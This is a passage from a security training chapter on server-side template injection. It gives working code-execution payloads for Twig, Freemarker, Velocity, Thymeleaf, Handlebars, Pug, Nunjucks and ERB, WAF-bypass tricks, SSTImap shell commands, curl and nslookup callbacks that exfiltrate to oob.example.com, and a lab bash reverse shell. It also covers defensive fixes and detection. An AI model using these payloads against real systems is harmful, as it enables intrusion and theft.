apps. It is a `{{ }}` engine, disambiguated from Jinja2 by `{{7*'7'}}` returning `49` (PHP numeric
coercion) rather than `7777777`.

### 7.1 Twig's security model

Twig is *intended* to be safe for untrusted templates in its default configuration — it does not
expose PHP's `system()` directly, and it forbids arbitrary function calls. RCE therefore comes from
**Twig-provided functions and filters** that indirectly reach PHP callables, or from the Symfony
environment object reachable via `_self`. The well-known primitives:

```twig
{# Fingerprint / confirm #}
{{7*7}}            {# 49 #}
{{7*'7'}}          {# 49  -> Twig, not Jinja2 #}
{{ _self }}        {# dumps the template object -> confirms Twig #}
{{ dump(app) }}    {# if the dump extension is enabled, leaks the Symfony app #}
```

### 7.2 The `filter`/`map`/`sort` callback-to-`system` gadgets

Twig's `filter`, `map`, `sort`, and `reduce` operate with a callback. If the callback string is
passed to a PHP callable resolver, you can point it at `system`/`exec`/`passthru`:

```twig
{# Twig >= 1.x: call an arbitrary PHP function via the filter callback #}
{{ ['id'] | filter('system') }}
{{ ['id'] | map('system') }}
{{ ['id'] | reduce('system') }}

{# Older, widely-referenced Twig RCE via _self.env registerUndefinedFilterCallback #}
{{ _self.env.registerUndefinedFilterCallback('exec') }}{{ _self.env.getFilter('id') }}

{# system via the sort callback #}
{{ ['id'] | sort('system') }}
```

**Realistic output** for `{{ ['id']|map('system') }}` when it lands:

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The `_self.env.registerUndefinedFilterCallback('exec')` chain is the classic Twig-1/2 RCE; newer
Twig (3.x) removed `_self.env`, so on modern targets prefer the `filter`/`map`/`reduce` callbacks,
and check whether the app registered any custom function that wraps a shell call.

### 7.3 Drupal / Craft context

**Red team usage:** in Drupal 8+ (Twig) a Twig SSTI in a rendered field is a direct RCE primitive
and has appeared in real advisories. In Craft CMS, the `` tag set plus Twig's object access
have produced multiple RCE chains. Match the exact Twig version (via `_self` / error traces) to the
right gadget, because the available primitives changed between Twig 1, 2, and 3.

---

## Part 8: The Java Engines — Freemarker, Velocity, Thymeleaf

Java template engines are common in enterprise apps and are `${ }`-family. They are dangerous
because Java reflection lets you reach `Runtime.exec` from almost anywhere.

### 8.1 Freemarker

Freemarker ships a built-in that is essentially an RCE primitive: `freemarker.template.utility.Execute`.

```freemarker
<#-- Confirm -->
${7*7}                      <#-- 49 -->

<#-- Classic Execute utility RCE -->
<#assign ex="freemarker.template.utility.Execute"?new()>${ ex("id") }

<#-- Alternative via ObjectConstructor -->
${"freemarker.template.utility.ObjectConstructor"?new()("java.lang.ProcessBuilder","id")}

<#-- Via the api/ JythonRuntime / new() built-in -->
<#assign value="freemarker.template.utility.Execute"?new()>${value("cat /etc/passwd")}
```

**Realistic output** for the `Execute` gadget:

```http
HTTP/1.1 200 OK

uid=0(root) gid=0(root) groups=0(root)
```

Modern Freemarker can be locked down by removing unsafe built-ins (`new`, `api`) via the
`TemplateClassResolver` and `newBuiltinClassResolver` settings; when that hardening is present the
`?new()` gadget throws `InvalidReferenceException` or a resolver-denied error — note it and pivot to
known-CVE checks for the specific version.

### 8.2 Velocity

Velocity (`#set`, `$var`, `#if`) reaches code execution through reflection on class-loader tools:

```velocity
## Confirm
#set($x = 7 * 7)$x        ## 49

## RCE via ClassTool-style reflection to Runtime.exec
#set($e="e")
#set($run=$e.getClass().forName("java.lang.Runtime"))
#set($getRuntime=$run.getMethod("getRuntime",null))
#set($rt=$getRuntime.invoke(null,null))
#set($ex=$run.getMethod("exec",$e.getClass()))
$ex.invoke($rt,"id")

## Shorter, using the classic Velocity reflection chain
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("id"))
$ex.waitFor()
$ex
```

### 8.3 Thymeleaf

Thymeleaf is Spring's engine and uses Spring EL (SpEL) inside expression preprocessing `__${...}__`
and fragment expressions. SSTI usually arises when a *view name* or a *fragment* is attacker-
controlled:

```thymeleaf
<!-- SpEL preprocessing gives RCE when a fragment/expression is injectable -->
__${T(java.lang.Runtime).getRuntime().exec('id')}__::.x
${T(java.lang.Runtime).getRuntime().exec('calc')}

<!-- Common Thymeleaf-in-Spring view-name injection payload -->
__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("id").getInputStream()).next()}__::.x
```

**Blue team usage:** the `T(java.lang.Runtime)` and `T(java.lang.ProcessBuilder)` tokens in a
request parameter, a `fragment`/`view` parameter, or a `Referer` are extremely high-signal SpEL/
Thymeleaf SSTI indicators — alert on them. They also appear in unrelated Spring SpEL injection
(not just Thymeleaf), so the same detection covers a broad class.



---

## Part 9: Node and Ruby Engines — Handlebars, Pug, Nunjucks, ERB, Slim

### 9.1 Node engines

Node template engines vary from logic-less (Handlebars, base Mustache) to full-power (Pug/Jade,
EJS, Nunjucks). The escape usually pivots through JavaScript's prototype chain and
`child_process`.

```handlebars
{{!-- Handlebars RCE via constructor traversal (known public technique) --}}
{{#with "s" as |string|}}
  {{#with split as |conslist|}}
    {{this.pop}}{{this.push (lookup string.sub "constructor")}}{{this.pop}}
    {{#with string.split as |codelist|}}
      {{this.pop}}
      {{this.push "return require('child_process').execSync('id');"}}
      {{this.pop}}
      {{#each conslist}}{{#with (string.sub.apply 0 codelist)}}{{this}}{{/with}}{{/each}}
    {{/with}}
  {{/with}}
{{/with}}
```

```pug
//- Pug/Jade: interpolation runs JS directly -> RCE
#{ global.process.mainModule.require('child_process').execSync('id') }
= global.process.mainModule.require('child_process').execSync('id')
```

```javascript
// Nunjucks (Node port of Jinja2 syntax) RCE
{{ range.constructor("return global.process.mainModule.require('child_process').execSync('id')")() }}
```

**Realistic output** for the Nunjucks payload:

```http
HTTP/1.1 200 OK

uid=1000(node) gid=1000(node) groups=1000(node)
```

### 9.2 Ruby engines — ERB and Slim

ERB is Rails' default `.erb` engine. `<%= %>` outputs an expression; `<% %>` runs a statement.
Because ERB evaluates Ruby, RCE is immediate:

```erb
<%= 7*7 %>                          <%# 49 %>
<%= system("id") %>                  <%# runs id, returns true/false %>
<%= `id` %>                          <%# backticks -> command output %>
<%= IO.popen("id").read %>
<%= Kernel.system("cat /etc/passwd") %>
```

Slim (and other Ruby engines) use `#{ }` interpolation that likewise evaluates Ruby:

```slim
#{ `id` }
#{ system('id') }
```

**Red team usage:** Ruby SSTI in a Rails app frequently comes from `render inline:` with a user
string, or from a `.erb` fragment name built from params. `<%= \`id\` %>` returning command output
is the single fastest confirmation-and-RCE in one payload.

---

## Part 10: Blind SSTI, Out-of-Band, and Time-Based Confirmation

Often the rendered result is not reflected back to you — the injected field feeds an email, a PDF,
an async job, or an admin-only page. This is **blind SSTI**, and you confirm it the same way you
confirmed blind command injection in the previous chapter: with **time** and **out-of-band (OOB)**
signals.

### 10.1 Time-based inference

Force the engine to sleep, and infer evaluation from the response delay:

```jinja
{# Jinja2 / Python — sleep 10s if evaluated #}
{{ cycler.__init__.__globals__.__builtins__.__import__('time').sleep(10) }}
{{ ''.__class__.__mro__[1].__subclasses__()[INDEX]('sleep 10',shell=True) }}
```

```freemarker
<#-- Freemarker time-based via Execute -->
${ "freemarker.template.utility.Execute"?new()("sleep 10") }
```

```erb
<%= sleep(10) %>
```

If the response reliably takes ~10s with `sleep 10` and ~0s with `sleep 0`, evaluation is confirmed
blind.

### 10.2 Out-of-band (OOB / OAST) confirmation and exfiltration

Make the server contact a collaborator host you control (Burp Collaborator, `interactsh`), which
proves execution *and* can carry stolen data in the subdomain:

```jinja
{# DNS/HTTP callback via os.popen curl/nslookup #}
{{ lipsum.__globals__.os.popen('curl http://$(whoami).oob.example.com').read() }}
{{ lipsum.__globals__.os.popen('nslookup `id|base64`.oob.example.com').read() }}
```

```freemarker
${ "freemarker.template.utility.Execute"?new()("curl http://oob.example.com/`hostname`") }
```

A DNS lookup arriving for `www-data.oob.example.com` both confirms RCE and leaks the username. For
data exfiltration, base64-encode command output into the subdomain (as in the command-injection
chapter) to survive DNS's character constraints.



### 10.3 Response-differential (boolean) blind

When neither timing nor OOB is available, use an expression that changes the response between two
observable states — an engine that errors on a bad expression but renders cleanly on a valid one
gives you a boolean oracle to slowly read data, exactly like blind SQLi.

---

## Part 11: Tooling From Zero — tplmap and SSTImap

Manual work finds and proves SSTI; tooling accelerates fingerprinting and exploitation once you are
scoped to go loud. The two standard tools are **tplmap** (the original) and **SSTImap** (a
maintained fork/successor). Learn them from scratch.

### 11.1 What tplmap / SSTImap are

Both are Python command-line tools that automate SSTI the way `sqlmap` automates SQLi: they inject
a battery of probes across many engines, fingerprint which one evaluates, and then offer
capabilities — code evaluation, OS command execution, a pseudo-shell, file read/write, and even a
bind/reverse TCP shell — for the engines they support (Jinja2, Twig, Freemarker, Velocity, Mako,
Smarty, Tornado, and more).

### 11.2 Install on Kali

```bash
# SSTImap (actively maintained successor)
sudo apt update && sudo apt install -y python3 python3-pip git
git clone https://github.com/vladko312/SSTImap
cd SSTImap
pip3 install -r requirements.txt
python3 sstimap.py --help

# tplmap (original, for reference)
git clone https://github.com/epinna/tplmap
cd tplmap
pip3 install -r requirements.txt
python3 tplmap.py --help
```

### 11.3 Core workflow and the flags that matter

```bash
# 1) Detect + fingerprint a GET parameter
python3 sstimap.py -u "https://target.tld/greet?name=John"
#   -u   target URL (mark the injectable param by including it in the query)
#   Tool auto-tests engines and reports e.g. "Jinja2 (Python) — code eval, OS cmd"

# 2) Get an interactive OS command shell once an engine is confirmed
python3 sstimap.py -u "https://target.tld/greet?name=John" --os-shell
#   --os-shell   drops you into an interactive command prompt on the target

# 3) Run a single command (scriptable, less noisy than a full shell)
python3 sstimap.py -u "https://target.tld/greet?name=John" --os-cmd "id"

# 4) POST body / specific parameter / headers
python3 sstimap.py -u "https://target.tld/greet" \
    --method POST --data "name=John&city=X" --marker name
#   --data    request body; --marker/-p selects which parameter to fuzz

# 5) Through Burp for visibility, with a custom header/cookie and a level bump
python3 sstimap.py -u "https://target.tld/greet?name=John" \
    --proxy http://127.0.0.1:8080 \
    -H "Cookie: session=abc" \
    --level 5
#   --proxy   route via Burp to watch every payload
#   -H        add headers (auth/cookies) so you test authenticated surface
#   --level   how aggressive/obfuscated the probes are (higher = more, slower)
```

**Realistic annotated output** for step 1:

```
[+] Tplmap/SSTImap ...
[+] Testing if GET parameter 'name' is injectable
[+] Smarty plugin is testing rendering with tag '{*}'
[+] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin has confirmed injection with tag '{{*}}'
[+]   SSTImap identified the following injection point:
        Query parameter: name
        Engine:          Jinja2
        Injection:       {{*}}
        Context:         text
        Capabilities:
          Shell command execution: ok
          Bind and reverse shell:  ok
          File write:              ok
          File read:               ok
          Code evaluation:         ok, python code
```

### 11.4 When to reach for tooling vs stay manual

**Bug bounty angle:** on a bounty target, run the *detection* stage through Burp to keep it quiet,
confirm the engine, then prove impact with **one** hand-crafted minimal payload (`id` / config
leak). Do not fire `--os-shell` or `--reverse-shell` at a production bounty asset — automated
exploitation is loud, can be destructive, and frequently violates program rules. On an authorised
internal pentest where RCE is in scope, `--os-shell` is a fast, legitimate way to demonstrate full
impact.

---

## Part 12: WAF and Filter Bypasses

Real targets often sit behind a WAF or an application denylist that blocks obvious tokens
(`__class__`, `os`, `system`, `{{`). Bypasses fall into a few reliable categories.

### 12.1 Delimiter and whitespace tricks

- Alternate statement syntax: if `{{ }}` is filtered, `` blocks may not be. In Jinja2 you
  can execute via ``:

```jinja
{{ x }}
   {# newer Jinja print stmt #}
```

- Inject newlines/tabs inside expressions where the parser tolerates them; some WAFs match on exact
  substrings that whitespace breaks up.

### 12.2 String construction to avoid literals

```jinja
# Avoid the literal 'os'
{{ lipsum.__globals__['o''s'] }}                 # adjacent string literals
{{ lipsum.__globals__['o'~'s'] }}                # ~ is Jinja string concat
{{ lipsum.__globals__[['o','s']|join] }}         # join a list into 'os'

# Avoid the literal '__class__' via attr + format
{{ ()|attr('__%s__'|format('class')) }}
{{ ()|attr(['_','_','class','_','_']|join) }}
```

### 12.3 Encoding and char-code construction

```jinja
# Build a char from its code point to dodge a blocked character
{{ ''|attr((dict(cla=1,ss=2)|list|join)) }}      # 'class' from dict keys
{{ request|attr('application')|attr(...) }}       # walk via request when literals blocked

# Hex/unicode in the transport layer: URL-encode, double-encode, or
# use unicode escapes the WAF normalises differently than the app
```

### 12.4 A bypass matrix

| Blocked token | Bypass technique | Example |
|---|---|---|
| `{{` | Use `` statements | `` |
| `.` (attribute dot) | `|attr()` filter / `[ ]` bracket | `()|attr('__class__')` |
| `_` / `__` | build via concat/format/join | `'__%s__'|format('class')` |
| `os` | string concat / join | `['o','s']|join` |
| `__class__` literal | dict-keys / list-join | `(dict(cla=1,ss=2)|list|join)` |
| `system`/`popen` | reach via `__builtins__`/`__import__` | `__import__('os').popen` |
| whole word list | mix encodings (URL/double-URL/unicode) | transport-layer evasion |

**Blue team usage:** because attackers *will* obfuscate, do not build detection on literal
`__class__`/`{{7*7}}` strings alone. Detect on *behaviour* (Part 14): a web process spawning a
shell, unexpected outbound DNS/HTTP, and template-engine error signatures. Signature-only WAF rules
are trivially bypassed by the concat/format tricks above.

---

## Part 13: Hands-On Lab — Flask/Jinja2 SSTI, Detection to Reverse Shell

This lab is fully reproducible on your own machine. It builds a deliberately vulnerable Flask app,
then walks detection, fingerprinting, config leak, RCE, and a scope-permitting reverse shell —
mirroring a real engagement end to end. **Run this only on your own lab host.**

### 13.1 Stand up the vulnerable target

```bash
# On your Kali/lab box
pip3 install flask --break-system-packages 2>/dev/null || pip3 install flask
mkdir -p ~/ssti-lab && cd ~/ssti-lab
cat > app.py <<'PY'
from flask import Flask, request, render_template_string
app = Flask(__name__)

@app.route("/")
def index():
    name = request.args.get("name", "guest")
    # VULNERABLE: user input concatenated into template source
    tmpl = "<h1>Hello " + name + "!</h1>"
    return render_template_string(tmpl)

app.config["SECRET_KEY"] = "super-secret-lab-key-do-not-ship"
app.run(host="127.0.0.1", port=5000, debug=False)
PY
python3 app.py &
sleep 1
```

### 13.2 Detect and fingerprint

```bash
# Baseline
curl -s "http://127.0.0.1:5000/?name=John"
# <h1>Hello John!</h1>

# Arithmetic oracle
curl -s "http://127.0.0.1:5000/?name=%7B%7B7*7%7D%7D"       # {{7*7}}
# <h1>Hello 49!</h1>              <-- SSTI confirmed

# Engine differential
curl -s "http://127.0.0.1:5000/?name=%7B%7B7*%277%27%7D%7D" # {{7*'7'}}
# <h1>Hello 7777777!</h1>        <-- Jinja2 (Python), not Twig
```

### 13.3 Leak the Flask config (SECRET_KEY)

```bash
curl -s "http://127.0.0.1:5000/?name=%7B%7Bconfig.items()%7D%7D"   # {{config.items()}}
# <h1>Hello dict_items([('DEBUG', False), ('SECRET_KEY',
#     'super-secret-lab-key-do-not-ship'), ...])!</h1>
```

That single request would, on a real target, let you forge session cookies with the leaked
`SECRET_KEY` — often a critical finding on its own.

### 13.4 Achieve RCE (minimal proof)

```bash
# Modern index-free payload: {{ lipsum.__globals__.os.popen('id').read() }}
curl -s "http://127.0.0.1:5000/?name=%7B%7B%20lipsum.__globals__.os.popen('id').read()%20%7D%7D"
# <h1>Hello uid=1000(kali) gid=1000(kali) groups=1000(kali)
# !</h1>
```

RCE proven with a harmless `id`. On a bounty, stop here and report.

### 13.5 Reverse shell (only if scope permits)

```bash
# Listener on the attacker box
nc -lvnp 4444 &

# Payload URL-encodes a bash reverse shell run via os.popen
# {{ lipsum.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/127.0.0.1/4444 0>&1"').read() }}
PAYLOAD='{{ lipsum.__globals__.os.popen("bash -c \"bash -i >& /dev/tcp/127.0.0.1/4444 0>&1\"").read() }}'
curl -s "http://127.0.0.1:5000/" --get --data-urlencode "name=$PAYLOAD"
# The nc listener now has an interactive shell as the app user.
```

```mermaid
flowchart LR
    A[name=John] --> B[{{7*7}} -> 49: SSTI]
    B --> C[{{7*'7'}} -> 7777777: Jinja2]
    C --> D[{{config.items}}: SECRET_KEY leak]
    D --> E[{{lipsum...os.popen id}}: RCE proof]
    E --> F[reverse shell if in scope]
```

### 13.6 Fix it and re-test

```python
# SAFE version — pass user data as CONTEXT, never as template source
from flask import Flask, request, render_template_string
app = Flask(__name__)

@app.route("/")
def index():
    name = request.args.get("name", "guest")
    # name is a VALUE bound to {{ name }}, not part of the source
    return render_template_string("<h1>Hello {{ name }}!</h1>", name=name)
```

Re-running `?name={{7*7}}` now renders the literal `Hello {{7*7}}!` (auto-escaped) — no evaluation,
because `name` is data. This one change is the core defensive lesson of the chapter.

---

## Part 14: Detection & Defense Angle

This is the consolidated defensive section. SSTI defense operates at three layers: **prevent the
sink**, **contain the engine**, and **detect the exploitation**.

### 14.1 Prevent the sink (the only real fix)

- **Never build template source from user input.** Pass user data exclusively as *context
  variables* bound to a *static, developer-authored template*. The Part 13.6 fix is the canonical
  pattern: `render_template_string("<h1>Hello {{ name }}!</h1>", name=name)`, never
  `render_template_string("<h1>Hello " + name + "</h1>")`.
- **Do not expose `render_template_string`-style APIs to user data at all** unless the feature
  genuinely requires user-authored templates — and if it does, treat it as an interpreter you are
  handing to attackers.
- **Static analysis / grep in CI:** flag `render_template_string`, `Template(` on tainted strings,
  `render inline:` (Rails), `new Template(` (Freemarker) with non-constant arguments, and any
  string concatenation feeding a template constructor.

### 14.2 Contain the engine (defense in depth)

- **Prefer logic-less engines for user-facing templating:** Mustache, Handlebars (without helpers
  that reintroduce power), Liquid, or Django's restricted template language. They forbid arbitrary
  method calls and expression evaluation, so even an injection has a far lower ceiling.
- **Use the engine sandbox where one exists:** Jinja2 `SandboxedEnvironment`, Twig with the default
  (no `_self`, no dangerous filters), Freemarker with `newBuiltinClassResolver` set to deny
  `new`/`api` and a restrictive `TemplateClassResolver`. Understand a sandbox is *containment, not a
  guarantee* — history shows escapes — so it complements, not replaces, preventing the sink.
- **Run the app as an unprivileged user, in a container with a read-only filesystem and egress
  filtering**, so that even successful RCE is minimally useful and OOB callbacks are blocked.

### 14.3 Detect the exploitation

Signature detection on payload strings is bypassable (Part 12), so anchor detection in *behaviour*:

| Signal | Where | Why it fires on SSTI |
|---|---|---|
| Web/app process spawns a shell (`sh`,`bash`,`cmd`) or `id`/`whoami`/`curl`/`nc` | EDR / auditd `execve` / Sysmon EID 1 | RCE via engine reaches the OS |
| Unexpected outbound DNS/HTTP from the app process to unknown domains | egress logs / Sysmon EID 3 | OOB confirmation & exfil (Part 10) |
| Template-engine error signatures in logs | app logs | `jinja2.exceptions`, `Twig\Error`, `FreeMarker template error`, `SecurityError` from breakage probes |
| Request params containing `{{`,`${`,`<%=`,`#{`,`T(java.lang.Runtime)`,`__class__`,`__subclasses__`,`_self.env`,`freemarker.template.utility` | WAF / request logging | high-signal SSTI probe/exploit tokens |
| Sandbox `SecurityError`/`SecurityViolation` spikes | app logs | someone is running standard escape payloads against a sandbox |

**IR use case:** on a suspected SSTI compromise, pivot from the app-process `execve` events back to
the exact HTTP request (correlate by timestamp/PID) to recover the payload, then grep historical
request logs for the same tokens to scope how long the injectable field was abused and whether the
`SECRET_KEY`/config was leaked (which would require secret rotation and session invalidation).

- **Nuclei / Nessus:** template-based scanners ship SSTI detection templates (arithmetic-oracle
  reflections per engine). Running Nuclei's `ssti` tag against your own estate is a cheap way to
  catch regressions — but validate hits manually, since reflected `49` can be a false positive.

---

## Part 15: Real-World Cases and CVEs

SSTI is not academic — it has produced critical, widely exploited vulnerabilities:

- **Atlassian Confluence — CVE-2015-8399 / OGNL and later template/OGNL injections:** Confluence's
  macro and Velocity/OGNL surfaces produced multiple RCE chains over the years; the Velocity/OGNL
  injection pattern is a close cousin of classic SSTI.
- **Apache Struts OGNL (CVE-2017-5638 and siblings):** while OGNL is an expression language rather
  than a page template, the exploitation mindset — untrusted input reaching an expression evaluator
  that reaches `Runtime.exec` — is identical to Java SSTI, and `%{...}` OGNL payloads mirror
  `${...}` template payloads.
- **Freemarker in enterprise apps / Alfresco / Liferay:** the `freemarker.template.utility.Execute`
  gadget has driven real RCEs where a user-editable Freemarker template or an injectable `${}`
  reached the engine unhardened.
- **Craft CMS / October CMS (Twig) RCE chains:** Twig SSTI in CMS field rendering has produced
  documented RCE, using the `_self.env` / filter-callback gadgets in Part 7.
- **Shopify/e-commerce Liquid injections:** typically *limited* (Liquid is logic-less), most often
  information disclosure of internal objects rather than RCE — a good example of engine choice
  capping impact.
- **Numerous bug-bounty disclosures on HackerOne/Bugcrowd:** SSTI in "custom email template",
  "display name", and "PDF export" features across SaaS products, frequently escalating from
  `{{7*7}}` to full RCE and rated critical.

The through-line: impact is governed by *engine power* and *hardening*, and the entry point is
almost always a "let users template something" feature or an accidental concatenation into source.

---

## Part 16: Common Pitfalls

- **Testing only `{{ }}`.** If `{{7*7}}` does nothing, the engine may use `${ }`, `#{ }`, `<%= %>`,
  or `{ }`. Fire the polyglot before concluding "not vulnerable".
- **Using `{{49}}` or `{{7+7}}`.** These can render `49`/`14` without proving evaluation (echo or
  coincidence). Use a *product* like `7*7` or `1337*1337`.
- **Reading the browser view instead of raw bytes.** Escaping and DOM rendering can hide or mangle
  the marker; always check the raw HTTP response.
- **Assuming SSTI = XSS.** Confusing client-side reflection with server-side evaluation leads to
  wrong (low) severity. Confirm the server computed the value.
- **Hardcoding `__subclasses__()` indices.** They shift across Python versions; use index-free
  payloads (`lipsum`/`cycler`) or find the index dynamically.
- **Firing `--os-shell`/reverse shells at production bounty targets.** Loud, potentially
  destructive, and often against program rules. Prove with `id`/config leak and stop.
- **Confusing the engine sandbox with an app WAF.** A `SecurityError` means a real sandbox (hard);
  a blocked literal means a denylist (bypass with concat/format). Diagnose which you face.
- **Over-exfiltrating.** Dumping `/etc/shadow` or customer data to prove a point is unnecessary and
  harmful — a redacted `id`/hostname/`SECRET_KEY`-present screenshot is sufficient.

---

## Part 17: Final Revision / Summary

- **SSTI is data-as-code at the template layer.** It happens only when user input reaches the
  *template source* (compiled as code), not when it is merely a *context value* (rendered as data).
- **Detect with the arithmetic oracle:** `{{7*7}}` to `49` proves server-side evaluation; a polyglot
  covers all delimiter families; read raw bytes; unusual products avoid false positives.
- **Fingerprint with differentials:** `{{7*'7'}}` gives `7777777` on Jinja2 (Python) vs `49` on
  Twig (PHP); `${ }` families split into Freemarker/Velocity/Thymeleaf by their reflection/utility
  primitives; version leaks like `{$smarty.version}` and `{{config}}` confirm and date the engine.
- **Escalate per engine:** Jinja2 via `lipsum`/`cycler` globals or MRO/`__subclasses__`; Twig via
  `map('system')`/`_self.env`; Freemarker via `Execute`; Velocity via Runtime reflection; Thymeleaf
  via SpEL `T(java.lang.Runtime)`; Node via `child_process`; Ruby ERB via backticks.
- **Blind SSTI** is confirmed with time (`sleep`) and OOB DNS/HTTP callbacks, exactly like blind
  command injection.
- **Tooling** (tplmap/SSTImap) automates detection and exploitation; use detection quietly on
  bounties and full exploitation only on authorised pentests.
- **Bypass WAFs** with alternate delimiters (``), attribute/bracket access, and string
  construction (concat/format/join) — so defenders must detect on behaviour, not signatures.
- **Defense** is: never build template source from input (pass context vars to static templates),
  prefer logic-less engines, sandbox where possible, least-privilege + egress-filter the app, and
  detect via process-spawn/outbound-callback/error telemetry.

---

## Part 18: Cheat Sheet / Quick Reference

**Detection (fire in order):**

```
${{<%[%'"}}%\        # breakage polyglot -> 500 / stack trace = SSTI + engine leak
{{7*7}}   ${7*7}   #{7*7}   <%= 7*7 %>   {7*7}   #set($x=7*7)$x   # arithmetic per family
{{1337*1337}} -> 1787569    # confirm (no coincidence)
```

**Fingerprint differentials:**

```
{{7*'7'}}  -> 7777777  Jinja2 (Python)
{{7*'7'}}  -> 49       Twig (PHP)
{{ _self }}            Twig confirm
{{ config }}           Flask/Jinja2 confirm + SECRET_KEY leak
{$smarty.version}      Smarty version
${...Execute...?new()} Freemarker confirm
#set(...)$x            Velocity confirm
T(java.lang.Runtime)   Thymeleaf/SpEL confirm
```

**RCE payloads by engine:**

```
Jinja2:     {{ lipsum.__globals__.os.popen('id').read() }}
            {{ cycler.__init__.__globals__.os.popen('id').read() }}
Twig:       {{ ['id']|map('system') }}
            {{ _self.env.registerUndefinedFilterCallback('exec') }}{{ _self.env.getFilter('id') }}
Freemarker: <#assign e="freemarker.template.utility.Execute"?new()>${ e('id') }
Velocity:   #set($e=$class.inspect("java.lang.Runtime").type.getRuntime().exec("id"))$e
Thymeleaf:  __${T(java.lang.Runtime).getRuntime().exec('id')}__::.x
Nunjucks:   {{ range.constructor("return process.mainModule.require('child_process').execSync('id')")() }}
Pug:        #{ global.process.mainModule.require('child_process').execSync('id') }
ERB:        <%= `id` %>
Smarty:     {system('id')}   or  {php}system('id');{/php}
Mako:       ${ __import__('os').popen('id').read() }
```

**Blind / OOB:**

```
Jinja2 sleep:  {{ cycler.__init__.__globals__.__import__('time').sleep(10) }}
OOB callback:  {{ lipsum.__globals__.os.popen('curl http://$(whoami).oob.example.com').read() }}
```

**WAF bypass (Jinja2):**

```
   # avoid {{ }}
{{ ()|attr('__%s__'|format('class')) }}                          # avoid __class__
{{ lipsum.__globals__['o'~'s'].popen('id').read() }}             # avoid literal 'os'
```

**Tooling:**

```
python3 sstimap.py -u "https://t/greet?name=John"                 # detect+fingerprint
python3 sstimap.py -u "https://t/greet?name=John" --os-cmd "id"   # single command
python3 sstimap.py -u "https://t/greet?name=John" --os-shell      # interactive (authorised only)
```

**One-line defense:** pass user data as *context* to a *static* template
(`render_template_string("Hello {{ name }}!", name=name)`), never concatenate it into template
source.

---

## Part 19: Practice Labs & Resources

Train this exact skill, not generic "web hacking":

- **PortSwigger Web Security Academy — Server-side template injection labs (free):** work the whole
  track — *"Basic SSTI"* (ERB), *"...without rendering"* (blind), *"...in an unknown language with a
  documented exploit"* (fingerprint + research), *"...with information disclosure via user-supplied
  objects"*, and the *code-context* and *filter-bypass* labs. These map one-to-one onto Parts 3, 4,
  10, and 12 and are the gold standard for methodical practice.
- **TryHackMe:** the *"SSTI"* room and the SSTI tasks inside *"OWASP Top 10"* / *"Injection"* rooms
  walk detection to RCE on a live Jinja2/Twig target.
- **HackTheBox:** several easy/medium web machines gate on Flask/Jinja2 or Node SSTI as the initial
  foothold (a "custom greeting", "profile name", or "template" feature) — exactly the 13.x flow.
- **VulnHub / local labs:** build the Part 13 Flask app and also try the Node (Nunjucks/Pug) and
  Ruby (ERB) equivalents so you internalise the per-engine RCE primitives hands-on.
- **SSTImap / tplmap test targets:** run SSTImap through Burp against your own vulnerable app with
  `--proxy` to *watch* every probe it emits per engine — the fastest way to learn the fingerprinting
  matrix by observation rather than memorisation.
- **Burp Collaborator / interactsh:** stand up an OAST listener and practise blind SSTI confirmation
  and DNS-based exfiltration until callbacks are second nature.
- **HackerOne / Bugcrowd disclosed reports:** filter public reports for "SSTI" / "template
  injection" and study the entry points ("custom email template", "display name", "PDF export") and
  how reporters proved impact minimally — pattern-matching real reports teaches what a triager
  expects to see.

Chapter 6 of this notebook continues the "untrusted data reaches a powerful interpreter" theme,
moving from template engines into the closely related families of expression-language and
object-graph injection (OGNL/SpEL/EL) and the broader server-side injection surface — where the
exact instinct you built here, *find the interpreter, confirm evaluation, escalate to the host
runtime*, applies to yet another evaluation engine.
